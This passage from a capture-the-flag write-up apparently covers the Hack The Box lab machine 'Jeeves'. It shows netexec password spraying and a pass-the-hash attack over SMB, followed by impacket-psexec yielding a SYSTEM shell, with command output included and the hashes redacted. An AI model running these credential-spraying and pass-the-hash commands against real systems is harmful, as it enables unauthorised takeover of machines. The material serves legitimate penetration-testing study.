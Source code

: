 ```bash
netexec smb 10.129.228.112 -u users.list -p pwd.list --continue-on-success | grep -v '[-]'
💩💩💩💩💩
```

The ‘Backup stuff’ entry contained an NTLM hash that I overlooked.

<img src="/assets/img/jeeves/Untitled 10.png" alt="Untitled 10.png" style="width:800px;">

**Performing a Pass the Hash (PtH)** attack against all gathered users reveals that it belongs to the local administrator user.

```bash
netexec smb 10.129.228.112 -u users.list -H '<REDACTED>' --continue-on-success | grep -v '[-]'
SMB         10.129.228.112  445    JEEVES           [*] Windows 10 Pro 10586 x64 (name:JEEVES) (domain:Jeeves) (signing:False) (SMBv1:True)
SMB         10.129.228.112  445    JEEVES           [+] Jeeves\administrator:<REDACTED> (Pwn3d!)
```

It is possible to connect over SMB as SYSTEM with the administrator hash.

```
impacket-psexec administrator@10.129.228.112 -hashes :<REDACTED>

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> hostname
Jeeves
```

And read the… wait, where is the root flag? XD.

```
C:\Windows\system32> type c:\users\administrator\desktop\root.txt
The system cannot find the file specified.
```
